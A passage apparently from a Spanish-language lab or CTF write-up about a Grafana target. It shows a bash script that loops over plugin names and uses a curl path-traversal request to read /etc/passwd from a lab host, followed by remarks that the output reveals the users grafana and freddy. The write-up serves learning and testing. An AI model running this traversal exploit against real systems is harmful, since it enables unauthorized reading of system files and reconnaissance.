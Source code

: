 ```bash
"table-old"
"tempo"
"testdata"
"text"
"timeseries"
"welcome"
"zipkin"
)

  

for i in ${plugins[@]}; do

output=$(curl --path-as-is http://10.10.10.2:3000/public/plugins/${i}/../../../../../../../../../../etc/passwd 2>/dev/null)

if [ $? -eq 0 ]; then
	echo -e "\n### Vulnerable: ${i} ###\n"
	echo "$output"
	break
else
	echo "Not Vulnerable: ${i}"
fi
done
```

no es la gran cosa pero cumple su función, aplicando el script podremos ver el /etc/passwd.
_____
![](attachment/d77389a92cace8d4e64515dff0ad12bb.png)
____
acá podemos ver usuarios del sistema, como grafana y freddy.
